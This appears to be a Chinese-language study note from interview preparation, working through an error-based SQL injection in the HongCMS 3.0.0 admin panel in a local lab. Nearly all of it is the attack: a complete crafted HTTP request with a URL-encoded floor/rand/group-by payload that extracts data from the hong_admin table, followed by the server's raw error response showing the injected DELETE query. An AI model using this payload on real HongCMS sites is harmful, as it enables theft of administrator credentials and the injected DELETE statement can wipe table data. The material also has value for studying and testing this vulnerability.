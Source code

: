 # 0x00 前言
360的笔试和前两天的面试都问道这个问题了，只不过360是sql server，然后后来的面试问的是MySQL，以前感觉自己好像都会了，但是当真正遇到问题才发现不是想想中的样子。。

# 0x01 先来MySQL（这个环境好搭建一点）
环境
- Windows server2008
- IIS7+php5+mysql5.0.22
- Hong cms 3.0.0后台报错注入

# 0x02 注入payload

实际遇到可能要先爆破管理员密码。。。。
参考[Hongcms 3.0.0后台SQL注入漏洞分析](https://www.freebuf.com/vuls/178316.html)和[十种MySQL报错注入](https://blog.csdn.net/whatday/article/details/63683187)  
采用报错注入，因为mysql5.0没有updatexml函数，所以使用floor、group by和count函数的冲突进行报错注入。
```
GET /admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20loginnum%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60 HTTP/1.1
Host: 192.168.72.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.131/admin/index.php/database
Connection: keep-alive
Cookie: O0oqZrypyswqadmin=104918af865ae8146284b36ed2c5c907
Upgrade-Insecure-Requests: 1
```

HTTP/1.1 200 OK
Content-Type: text/html
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.1
X-Powered-By: ASP.NET
Date: Thu, 18 Apr 2019 10:58:10 GMT
Content-Length: 8502

<!DOCTYPE html>
<html>
<head>
<meta http-equiv="content-type" content="text/html; charset=UTF-8">
<meta charset="utf-8">
<title>HongCMS - åå°ç®¡ç</title>
<link rel="stylesheet" type="text/css" href="/public/admin/admin.css">
<link rel="stylesheet" type="text/css" href="/public/js/artDialog/black.css">
<script src="/public/js/jquery-1.8.3.min.js" type="text/javascript"></script>
<script src="/public/js/jquery.cookie.js" type="text/javascript"></script>
<script src="/public/js/artDialog/jquery.artDialog.min.js" type="text/javascript"></script>
<script src="/public/admin/admin.js" type="text/javascript"></script>
<script type="text/javascript">
var this_uri = "/admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20substring(username,1,2)%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60";
</script>
</head>
<body>
<div id="header">
	<div class="logo" ><a href="/admin/"><img src="/public/admin/images/logo.gif" title="åå°é¦é¡µ"></a></div>
	<div class="loading"><div id="ajax-loader" title="Ajaxæ°æ®æ´æ°ä¸­..."></div></div>
	<div id="topbar">
		<div id="topmenu">
			<dl class="first"></dl>
			<dl>
				<dt><a href="/admin/index.php/articles">æç« </a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/articles/add">æ·»å æç« </a></li>
						<li><a href="/admin/index.php/articles">æç« åè¡¨</a></li>
						<li class="last"><a href="/admin/index.php/acategory">æç« ç±»å«</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/products">äº§å</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/products/add">æ·»å äº§å</a></li>
						<li><a href="/admin/index.php/products">äº§ååè¡¨</a></li>
						<li class="last"><a href="/admin/index.php/pcategory">äº§åç±»å«</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/users">ç¨æ·</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/users/add">æ·»å ç¨æ·</a></li>
						<li class="last"><a href="/admin/index.php/users">ç¨æ·åè¡¨</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/news">å¶å®</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/news">ç«ç¹æ°é»</a></li>
						<li class="last"><a href="/admin/index.php/contents">å¸¸æåå®¹</a></li>
					</div>
				</dd>
			</dl>
			<dl>
				<dt><a href="/admin/index.php/settings">ç³»ç»</a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/settings">ç½ç«è®¾ç½®</a></li>
						<li><a href="/admin/index.php/language">è¯­è¨ç®¡ç</a></li>
						<li><a href="/admin/index.php/template">æ¨¡æ¿ç®¡ç</a></li>
						<li><a href="/admin/index.php/database">æ°æ®ç»´æ¤</a></li>
						<li><a href="/admin/index.php/phpinfo">ç¯å¢ä¿¡æ¯</a></li>
						<li class="last"><a href="/admin/index.php/upgrade">ç³»ç»åçº§</a></li>
					</div>
				</dd>
			</dl>
			<dl class="last"></dl>
		</div>


		<div id="topuser">
			<dl class="first"></dl>
			<dl class="info"><!-- å¦ææ²¡æä¿¡æ¯ class=info none -->
				<dt><a href="/admin/"><i></i><span>18</span></a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/">é¢çæ ·å¼!!</a></li>
						<li><a href="/admin/">æ8ä¸ªæ°è®¢å</a></li>
						<li class="last"><a href="/admin/">æ10ç¯æç« å¾å®¡</a></li>
					</div>
				</dd>
			</dl>
			<dl class="msg none"><!-- å¦ææ²¡æä¿¡æ¯ class=msg none -->
				<dt><a href="/admin/"><i></i><span>0</span></a></dt>
				<dd>
					<div>
						<div class=right>ææ ç«åç­ä¿¡.</div>
					</div>
				</dd>
			</dl>
			<dl class="admin">
				<dt><a onclick="$.dialog({title:'æä½ç¡®è®¤',lock:true,content:'ç¡®å®éåº HongCMS åå°ç®¡çå?',okValue:'  ç¡®å®  ',ok:function(){window.location='/admin/index.php/index/logout';},cancelValue:'åæ¶',cancel:true});return false;"><i></i></a></dt>
				<dd>
					<div>
						<li class="first"><a href="/admin/index.php/index/logout">ç³»ç»ç®¡çå éåº?</a></li>
						<li><a href="/" target="_blank">ç½ç«é¦é¡µ</a></li>
						<li class="last"><a href="/admin/index.php/users/edit?userid=1">ä¿®æ¹æçèµæ</a></li>
					</div>
				</dd>
			</dl>
			<dl class="last"></dl>
		</div>
		<div></div>
	</div>
</div>

<div><!-- å¤å±æ·»å ä¸ä¸ªDIVè§£å³IE8ä¸margin-topçé®é¢ -->
<table cellpadding="0" cellspacing="0" id="maintable">
<tr>
<td id="container" valign="top">
<div id="sidebar">
	<div class="sidebar-toggler" title="æ¶æ¢èå(Ctrl <)"><i></i></div>
	<ul>
		<li class="start">
		   <a href="/admin/">
		   <i class="i-home"></i> 
		   <span class="title">é¦ é¡µ</span>
		   </a>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-articles"></i> 
		   <span class="title">æç« </span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/articles/add">æ·»å æç« </a></li>
			  <li><a href="/admin/index.php/articles">æç« åè¡¨</a></li>
			  <li><a href="/admin/index.php/acategory">æç« ç±»å«</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-pros"></i> 
		   <span class="title">äº§å</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/products/add">æ·»å äº§å</a></li>
			  <li><a href="/admin/index.php/products">äº§ååè¡¨</a></li>
			  <li><a href="/admin/index.php/pcategory">äº§åç±»å«</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-users"></i> 
		   <span class="title">ç¨æ·</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/users/add">æ·»å ç¨æ·</a></li>
			  <li><a href="/admin/index.php/users">ç¨æ·åè¡¨</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-others"></i> 
		   <span class="title">å¶å®</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/news">ç«ç¹æ°é»</a></li>
			  <li><a href="/admin/index.php/contents">å¸¸æåå®¹</a></li>
		   </ul>
		</li>
		<li class="has-sub">
		   <a href="#">
		   <i class="i-settings"></i> 
		   <span class="title">ç³»ç»</span>
		   <span class="arrow"></span>
		   </a>
		   <ul class="sub">
			  <li><a href="/admin/index.php/settings">ç½ç«è®¾ç½®</a></li>
			  <li><a href="/admin/index.php/language">è¯­è¨ç®¡ç</a></li>
			  <li><a href="/admin/index.php/template">æ¨¡æ¿ç®¡ç</a></li>
			  <li><a href="/admin/index.php/database">æ°æ®ç»´æ¤</a></li>
			  <li><a href="/admin/index.php/phpinfo">ç¯å¢ä¿¡æ¯</a></li>
			  <li><a href="/admin/index.php/upgrade">ç³»ç»åçº§</a></li>
		   </ul>
		</li>
		<li class="end"></li>
	</ul>
</div>
</td>

<td valign="top" class="maintd">
  <div class="maindiv">
	 <div id="main"><div class="itemtitle"><h3>æ°æ®åºç»´æ¤</h3></div><center><br /><br /><br /><br /><b>Database Query Error Info</b><br /><textarea rows="22" style="width:480px;font-size:12px;">Database Query Error Info:

Invalid SQL: DELETE FROM `hong_vvc`where vvcid=1 or (select 1 from (select count(*),concat((select substring(username,1,2) from hong_admin),floor(rand(0)*2))x from information_schema.tables group by x)a) or ``

Error: Unknown column '' in 'where clause'
Error No: 1054
File: /admin/index.php/database/operate
</textarea></center><div class=sysinfo>2019 &copy; HongCMS(3.0.0) <a href="http://www.weentech.com" target="_blank">weentech.com</a> Done in 0.012 second(s), 2 queries, GMT+8 2019-04-18 18:58:10</div>
		</div>
  </div>
</td>
</tr>
</table>
</div>

<script type="text/javascript">
	jQuery(document).ready(function() {
		//è°æ´é«åº¦
		$("#container").height($(window).height()-40); 
		$(window).resize(function() {
			$("#container").height($(window).height()-40);
		});

		App.init();//å·¦ä¾§èååå§å

		var a101 = $("#topbar"); //é¡¶é¨ä¸æ¥èå
		a101.find("dl").Jdropdown({delay: 0}, function(a){});

		//å¨écheckbox
		$("#checkAll").click(function(e){
			$("input[name='" + $(this).attr("for") + "']").attr("checked", this.checked);
		});
	});
</script>

</body>
</html>